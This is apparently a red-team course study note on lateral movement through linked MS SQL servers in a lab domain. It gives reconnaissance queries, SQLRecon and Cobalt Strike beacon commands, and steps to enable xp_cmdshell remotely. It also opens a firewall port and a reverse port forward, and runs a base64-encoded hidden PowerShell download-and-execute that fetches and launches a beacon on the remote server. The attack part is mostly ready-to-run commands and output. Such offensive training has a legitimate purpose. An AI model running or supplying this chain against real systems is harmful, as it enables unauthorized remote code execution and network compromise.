
SQL Servers have a concept called "links", which allows a database instance to access data from an external source.  MS SQL supports multiple sources, including other MS SQL Servers.  

These can also be practically anywhere - including other domains, forests or in the cloud.

#### 🖊️ Reconnaissance of other MSSQL servers

1) We can discover any links that the current instance has:

❗ via mssqlclient or Heidi
`SELECT srvname, srvproduct, rpcout FROM master..sysservers;`

❗via sqlrecon
`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links`

2) You could see something like this:

![[link.png]]
A mention to another MS SQL Server

3) We can send SQL queries to linked servers:

❗via OpenQuery
`SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');`

❗via sqlrecon
`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"`

4) Also check the xp_cmdshell status (just like doing it in mssql command execution phase):

❗via sqlrecon
`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"`

sql-1 is the remote server.

5) If `xp_cmdshell` is disabled, you won't be able to enable it by executing `sp_configure` via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:

```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

6) You can also check for further links in that server:

❗via sqlrecon
`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io`

❗via powersqlup  (will enumerate all links everywhere)
`beacon> powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"`

7) Another important detail to check is the user permissions we have from mssql A into the mssql B, use SQLRecon for this and analyze the member groups we belong to. The user could belong to important groups like sysadmin in the remote mssql server:
`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io`

```
[*] Determining user permissions on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
[*] Logged in as sa
[*] Mapped to the user dbo
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```


#### 📔 get a beacon running on remote MSSQL server

Communication could be blocked or not from the internal mssql server to the C2, so we can't take a chance of just assuming it has the same communication as our current mssql server.

1) We open a reverse port forward on the local beacon  to tunnel the access from internal mssql server, to our current mssql server, so it can get the payload file (check [[MSSQL Command Execution]] for a recap on this)
```
beacon> run hostname
sql-2

beacon> getuid
[*] You are DEV\mssql_svc (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

2) Get the beacon file into the internal ms sql server. 

❗via openquery

You can use `xp_cmdshell` on a linked server via `OpenQuery` (note that you need to prepend a dummy query) for it to work. 
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''')
```
Or you can use the "AT" syntax:
```
EXEC('xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''') AT [sql-1.cyberbotic.io]
```

❗via sqlrecon
Research `lxpcmd` module

3) Link to the running beacon

`beacon> link sql-1.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337`

![[sql-1-beacon.png]]


#### ⚠ Opsec




### Properties
---
📆 created   {{21-02-2024}} 20:06
🏷️ tags: #redteam #crto 

---

